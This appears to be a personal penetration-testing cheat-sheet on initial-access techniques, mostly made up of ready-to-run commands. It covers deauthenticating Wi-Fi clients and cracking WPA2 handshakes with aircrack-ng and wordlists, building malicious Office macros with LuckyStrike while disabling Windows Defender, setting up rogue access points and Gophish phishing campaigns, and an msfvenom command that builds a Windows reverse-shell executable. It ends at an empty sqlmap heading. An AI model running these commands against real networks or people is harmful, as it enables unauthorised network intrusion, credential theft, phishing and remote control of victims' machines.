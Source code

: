 Initial Access consists of techniques that use various entry vectors to gain their initial foothold within a network. Techniques used to gain a foothold include targeted spear phishing and exploiting weaknesses on public-facing web servers. Footholds gained through initial access may allow for continued access, like valid accounts and use of external remote services, or may be limited-use due to changing passwords.

# Aircrack-ng
````bash
airmon-ng check kill
airmon-ng start wlan0 - monitor mode, check with ifconfig
airodump-ng wlan0mon - get BSSID
airodump-ng wlan0mon -bssid MAC -s CHANNEL -w ./NAME
aircrack-ng   - get password in hex
airmon-ng stop wlan0mon
service network-manager restart
````

  #### WPA2   
  4-way handshake monitoring . Same steps till airdump-ng packet capturing, and disconect client to capture handshake

  ````bash
  aireplay-ng wlan0mon --deauth NR_TRIES -s BSSID -h CLIENT_MAC   
  aircrack-ng -w WORDLIST CAPFILE  
  ````
Alternatively find passwords using hashcat
  [WPA / WPA2 Word List Dictionaries Downloads – WirelesSHack](https://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html)


  # LuckyStrike
  Powershell framework for creating malicious macro Office documents.
  ```powershell
  Set-ExecutionPolicy Unrestricted #also turn off windows defender  
  Import-Module .\Invoke-Obsfucation
  ```

  Create and Add payloads to catalog.

  ! check MSFVenom for Privilege Escalation and Client Execution. It can be used to serve Payloads to LuckyStrike
  !MagicUnicorn: powershell downgrade attack to inject code straight to memory

  # WiFi-Pumpkin
  Rogue Wi-Fi Access Point , Man-in-the-middle attacks, and packet capturing.
  [P0cL4bs/wifipumpkin3: Powerful framework for rogue access point attack. (github.com)](https://github.com/P0cL4bs/wifipumpkin3)


  # Gophish
  [gophish/gophish: Open-Source Phishing Toolkit (github.com)](https://github.com/gophish/gophish)
  Setup and execute phishing engagements and security awareness training.

Prerequirisites : gss and GO language
```shell
nano ~/.bashrc
export GOPATH=/home/kali/go-workspace #create previously a go workspace folder
export GOROOT=/usr/local/go #executables
export PATH=$path:$GOROOT/bin
go get github.com/gophish/gophish
cd gophish
sudo ./gophish #generates a password on the terminal
```

~~~bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST-192.168.178.56 LPORT=4444 -f exe -o ~/testconnect.exe
~~~

# sqlmap
